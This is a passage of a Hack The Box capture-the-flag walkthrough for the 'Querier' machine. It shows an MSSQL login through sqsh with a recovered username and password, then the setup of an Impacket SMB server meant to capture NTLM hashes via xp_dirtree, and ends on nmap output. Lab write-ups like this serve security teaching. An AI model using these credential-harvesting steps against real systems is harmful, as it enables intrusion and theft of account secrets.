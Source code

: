 Database credentials!

## Tabular Data Stream

Microsoft and Sybase uses Tabular Data Stream (TDS) as the underlying protocol for data transfer between a client and a database server. We can use `sqsh` in Kali Linux to remotely connect to Microsoft SQL Server.

First, we define a SQL server by creating `~/.freetds.conf` as follows.

```
# cat ~/.freetds.conf
[QUERIER]
  host = 10.10.10.125
  port = 1433
  tds version = 8.0
```

Once that's done, we can set the style to vertical.

```
# cat ~/.sqshrc
\set style=vert
```

Now, let's connect to the server using its name.

```
# sqsh -S QUERIER -U QUERIER\\reporting -P 'PcwTWTHRwryjc$c6'
```

<a class="image-popup">
![f85cb877.png](/assets/images/posts/querier-htb-walkthrough/f85cb877.png)
</a>

Awesome.

## Undocumented Stored Procedure - `xp_dirtree`

Now that we have access to a MSSQL shell so to speak, we can execute `xp_dirtree` to exfiltrate NTLM hashes. But first, we need to set up a fake SMB server.

Impacket provides an excellent SMB server right off the box. Let's run that.

```
# impacket-smbserver deep /root/Downloads/querier -smb2support
```

You would want to enable SMB2 support. Remember your nmap scan?

```
ost script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server
|_    TCP port: 1433
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-02-24 08:18:51
|_  start_date: N/A
```

[1]: https://www.hackthebox.eu/home/machines/profile/175
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2570
[4]: https://www.hackthebox.eu/